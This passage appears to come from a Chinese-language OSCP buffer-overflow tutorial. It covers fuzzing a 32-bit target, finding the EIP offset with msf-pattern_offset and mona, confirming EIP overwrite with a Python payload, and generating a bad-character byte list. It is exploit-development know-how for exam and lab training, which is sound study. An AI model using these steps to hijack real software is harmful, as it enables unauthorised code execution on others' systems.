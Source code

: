 我使用了一个自定义的字符集，因为我注意到由msf-pattern_create生成的字符串并不总是让目标崩溃，而且出于一个奇怪的原因，这在大多数时候都是有效的.

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/patternCrash.png)

一旦字符串被发送，并引发崩溃，获得EIP值（如果它来自Immunity，则将其反转）并使用偏移量进行检查。

```
msf-pattern_offset -l <same number> -s abcdefghijklmnopqrstuvwxyz,ABCDEF,0123456789 -q <hex decoded string>
[+] Exact match at offset X
```

也可以使用mona去查询EIP

```
!mona config -set workingfolder c:\mona\%p

!mona findmsp -distance <lenth>

```

### **3. 确认EIP被修改:**

```
python -c 'print "A"*X+"B"*4'
```

OSCP的缓冲区溢出总是在32位的可执行文件上，所以EIP总是包含4个字节。在这种情况下，如果你的EIP寄存器在崩溃时包含**42424242**，那么你的EIP重写就成功了。

### **4. 找出badchar:**

### **With Immunity**

生成一个字符列表:

```
import sys
for i in range(1,256):
 sys.stdout.write('\\\\x'+'{:02X}'.format(i))
 
##生成好的
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

使用mona先备份内存.
